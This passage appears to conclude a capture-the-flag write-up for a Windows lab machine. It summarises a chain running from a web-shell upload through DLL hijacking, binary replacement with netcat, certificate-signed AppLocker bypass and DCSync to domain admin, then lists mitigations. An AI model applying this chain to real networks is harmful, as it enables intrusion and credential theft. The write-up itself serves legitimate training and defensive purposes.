This attack chain demonstrates how a series of seemingly small findings led to complete domain compromise:

| Phase | Action | Finding |
|-------|--------|---------|
| 1 | Enumerated Public Desktop | Found `bAD Passwords.lnk` pointing to `Get-bADpasswords` script |
| 2 | Checked Recycle Bin | Found deleted `cert.pfx` certificate files |
| 3 | Cracked certificate passwords | `abceasyas123` and `whysoeasy?` |
| 4 | Extracted certificate | Certificate for Code Signing issued to Administrator |
| 5 | Modified Get-bADpasswords.ps1 | Added `whoami /all` to identify user context |
| 6 | Signed modified script | Used Administrator certificate to sign |
| 7 | Triggered script execution | Script ran as `bpassrunner` |
| 8 | Got reverse shell | As `bpassrunner` |
| 9 | Performed DCSync attack | Extracted Administrator's NTLM hash |
| 10 | Created Kerberos ticket | Used Administrator hash |
| 11 | Connected via Evil-WinRM | As Administrator |
| 12 | Retrieved root flag | Complete domain compromise |

Each step built on the previous one, demonstrating how a single misconfiguration can be chained to achieve full domain compromise. The certificate found in the Recycle Bin was the key that unlocked everything, allowing us to sign scripts and bypass AppLocker, ultimately leading to Domain Admin privileges.

---

## Full Attack Chain Overview

```
Web Enumeration (mojoPortal CMS, port 80)
        │
        ▼
Default admin credentials → Admin Dashboard → System Info (Full Trust ASP.NET)
        │
        ▼
File Manager: Upload .txt (allowed) → Copy → rename to .aspx (bypasses filter)
        │
        ▼
Web shell live at /Data/Sites/1/media/logos/shell.aspx
        │
        ▼
Reverse shell as IIS APPPOOL\DefaultAppPool
        │
        ▼
AppLocker policy review + Get-bADpasswords CSV → BeatriceMill NTLM hash (weak)
        │
        ▼
hashcat -m 1000 → BeatriceMill:!!!!ilovegood17
        │
        ▼
nxc smb -k (Kerberos) → writable "share" (READ,WRITE)
        │
        ▼
DLL hijack: 7-zip64.dll on AutoIt scheduled task → confirms execution as ginawild
        │
        ▼
Abuse ginawild's WriteOwner on Bginfo64.exe (via ITDep group)
  → takeown → cacls grant ginawild:F → replace Bginfo64.exe with nc64.exe
        │
        ▼
Bginfo scheduled task (SYSTEM, every 3-5 min) → SYSTEM shell + USER FLAG
        │
        ▼
Recycle Bin → cert.pfx (x3, GinaWild's SID folder)
        │
        ▼
crackpkcs12 + rockyou.txt → abceasyas123 / whysoeasy?
        │
        ▼
Certificate = Administrator, Code Signing EKU
        │
        ▼
Modify Get-bADpasswords.ps1 → sign with Administrator cert → trigger via run.vbs
        │
        ▼
Script executes as bpassrunner (has DCSync rights) → shell via Bginfo64.exe reverse-shell trick
        │
        ▼
Get-ADReplAccount (DCSync) → Administrator NTHash: b3ff8d7532eef396a5347ed33933030f
        │
        ▼
ktutil / getTGT.py → Kerberos ticket for Administrator
        │
        ▼
evil-winrm -r WINDCORP.HTB → ROOT FLAG / Domain Admin
```

---

## Final Flags

**User Flag:** `c7de9935************************`

**Root Flag:** `1a921d83************************`

---

## Mitigations

- **Default mojoPortal admin credentials left in place**: rotate or disable every default vendor/application credential before a system goes into any reachable environment.
- **File Manager Copy function doesn't enforce the same extension blocklist as Upload**: apply extension/content validation consistently across *every* file operation (upload, copy, move, rename), not just the initial upload path.
- **ASP.NET running in Full Trust**: run application pools with the least privilege trust level the application actually requires.
- **Get-bADpasswords audit output left readable with plaintext-crackable NTLM hashes**: restrict access to password-audit output, and avoid persisting hash material outside a secured vault or SIEM.
- **Weak/reused password on BeatriceMill**: enforce a strong password policy and continuously screen accounts against known-breached password lists.
- **Writable SMB share hosting binaries invoked by a privileged scheduled task**: remove write access for standard users on any share referenced by a scheduled task that runs with elevated context.
- **DLL hijack on 7-zip64.dll (AutoIt-loaded library)**: enforce signed/verified DLL loading for any script-driven tooling, and restrict write access to library search paths.
- **WriteOwner granted to the ITDep group over Bginfo64.exe**: regularly audit object ACLs — especially WriteOwner/WriteDACL — on any binary executed by a privileged scheduled task.
- **Deleted certificate recoverable from the Recycle Bin**: securely wipe sensitive key material (`.pfx`/`.pem`) instead of relying on standard deletion, and restrict per-user Recycle Bin access.
- **Weak PFX certificate passwords**: enforce a strong passphrase policy for exported certificates and private keys.
- **AppLocker trusts any validly signed script rather than a specific certificate thumbprint**: pin AppLocker script rules to specific certificate thumbprints/publishers instead of "any valid signature."
- **bpassrunner holds DCSync rights it doesn't strictly need**: restrict `Replicating Directory Changes` / `Replicating Directory Changes All` to Domain Admins, Enterprise Admins, and Domain Controllers only.
- **Administrator NTLM hash usable for Pass-the-Hash / forged Kerberos tickets**: enable Credential Guard where possible, restrict/disable NTLM, and rotate the `krbtgt` and Administrator credentials on a regular schedule.
